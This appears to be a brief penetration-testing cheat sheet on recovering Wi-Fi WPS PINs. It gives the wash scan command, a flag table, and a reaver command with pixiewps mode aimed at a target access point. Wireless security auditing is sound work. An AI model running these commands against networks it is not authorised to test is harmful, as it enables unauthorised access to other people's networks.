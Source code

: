 # WPS Pin Recovery
- Scan for WPS enabled access points

```bash
wash -i wlan0mon
```

| Flag | Description |
| :--- | :---------------------------------------------- |
| -i   | interface                                       |
| -b   | BSSID                                           |
| -c   | channel                                         |
| -f   | fixed \(disable channel hopping\)               |
| -a   | auto detect best advanced options for target AP |
| -w   | mimic Windows 7 registrar                       |
| -v   | very verbose \( -vv for even more \)            |
| -K 1 | pixiewps mode enabled                           |

- Attack WPS with Reaver

```bash
reaver -i wlan0mon -b <AP MAC> -c 6 -f -a -w -vv -K 1
```